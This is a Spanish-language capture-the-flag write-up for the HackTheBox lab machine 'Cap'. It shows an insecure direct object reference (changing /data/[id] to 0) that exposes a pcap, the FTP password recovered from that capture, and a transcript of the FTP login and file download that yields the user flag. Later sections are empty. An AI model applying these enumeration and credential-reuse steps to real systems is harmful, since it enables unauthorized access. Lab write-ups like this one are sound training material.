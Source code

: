 ## Payload / CVE used
- Get ftp pass trough pcap
- 

---

# Puerto 80 

Podemos sortear el id en http://cap.htb/data/[id]
Si vamos al id 0 podemos descargar el 0.pcap que contiene informacion interesante sobre las conexiones ftp
![[Pasted image 20241203172305.png]]

# 0.pcap
![[Pasted image 20241203172514.png]]
Tenemos la contrasena del ftp '`Buck3tH4TF0RM3!`'

## FTP
Probamos la conexion al servidor ftp con el usuario  Nathan que sale en la web y la password del 0.pcap:
```bash
➜  recon ftp cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Descargamos todo lo del ftp 
```bash
ftp> ls
229 Entering Extended Passive Mode (|||35291|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1001     1001          235 Dec 03 15:59 a.py
-rwxrwxr-x    1 1001     1001       827841 Dec 03 11:57 linpeas.sh
-rwxrwxr-x    1 1001     1001         9627 Dec 03 13:53 poc.sh
drwxr-xr-x    3 1001     1001         4096 Dec 03 11:54 snap
-r--------    1 1001     1001           33 Dec 03 11:46 user.txt
226 Directory send OK.
ftp> get a.py
local: a.py remote: a.py
229 Entering Extended Passive Mode (|||23243|)
150 Opening BINARY mode data connection for a.py (235 bytes).
100% |************************************************************************|   235        6.79 MiB/s    00:00 ETA
226 Transfer complete.
235 bytes received in 00:00 (6.25 KiB/s)
ftp> get pco.sh
local: pco.sh remote: pco.sh
229 Entering Extended Passive Mode (|||21224|)
550 Failed to open file.
ftp> get snap
local: snap remote: snap
229 Entering Extended Passive Mode (|||46144|)
550 Failed to open file.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||6845|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |************************************************************************|    33       70.67 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.83 KiB/s)
ftp> 
```

ya tenemos la User flag, tambien funciona con ssh 
## Lateral Movement

### Local enumeration

- 

### Atack vector

- 

---

